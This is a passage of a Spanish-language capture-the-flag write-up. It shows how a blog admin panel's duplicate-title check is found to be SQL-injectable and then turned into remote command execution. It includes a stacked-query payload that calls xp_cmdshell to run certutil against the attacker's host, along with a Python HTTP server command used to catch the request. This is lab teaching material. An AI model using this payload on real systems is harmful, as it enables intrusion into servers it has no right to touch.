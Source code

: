 
ahora, lo que debemos hacer es empezar a enumerar la pagina, probar si se refleja algo, tenemos varias opciones para publicar en el blog

después de mirar e intentar varias cosillas, vemos que tenemos un #SQLinjection en el comparador de títulos duplicados:
<img src="/images/writeup-blazorized/27.png">

como sabemos? pues dice que hay 13 títulos con el mismo nombre, o sea, esta seleccionando todos los títulos

tambien, si agregamos post, podremos ver que no los publica pero si los va almacenar en la base de datos 

que hacemos en estos cazos?

tengamos en cuenta, que la base de datos contiene el almacenamiento de la pagina, entonces, podemos intentar leer datos de ella? pero ya tenemos acceso al panel de administración, así que podemos buscar el modo de ejecutar comandos directamente en el servidor aprovechando la inyección:
https://www.tarlogic.com/es/blog/red-team-tales-0x01/
#SQLiToRCE
este blog lo encontramos buscando modos de ejecutar comandos a través de una inyección sql,
para probar si funciona, podemos levantar un servidor con python en nuestra maquina:
```bash
python3 -m http.server 80
```
y ejecutar en el campo de inyección:
```
' ; EXEC xp_cmdshell 'certutil -urlcache -f http://10.10.10.10'; -- -
```
y vemos que ha funcionado, tenemos ejecución remota de comandos: